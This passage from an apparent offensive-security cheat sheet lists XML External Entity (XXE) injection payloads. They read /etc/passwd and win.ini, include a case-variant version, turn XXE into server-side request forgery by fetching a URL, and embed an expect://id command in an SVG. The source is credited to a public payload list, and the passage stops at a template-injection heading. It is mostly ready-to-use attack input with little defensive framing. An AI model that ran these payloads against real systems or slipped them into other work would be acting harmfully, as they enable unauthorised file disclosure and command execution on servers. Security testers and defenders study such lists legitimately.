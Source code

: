 ### XXE: read local files
  `linux`
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

  `windows`
 ```xml
  <?xml version = "1.0"?>
  <!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///windows/win.ini"> ]>
<order>
  <quantity>1</quantity>
  <item>
&exploit;
</item>
  <address>USA</address>
  </order>
 ```
If the output of the `win.ini` file on the target returns the response message, then it proves that the XML External Entity vulnerability is present.

### use replace funtion if case sensitive
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&exploit;</lastName>
</userInfo>
```
### XXE to SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```
### XXE inside SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://id"></image>
</svg>
```

#### [source](https://github.com/payloadbox/xxe-injection-payload-list)
--------------------------------------------------------------------------------------------------------------
# Server Side Template Injection (SSTI)
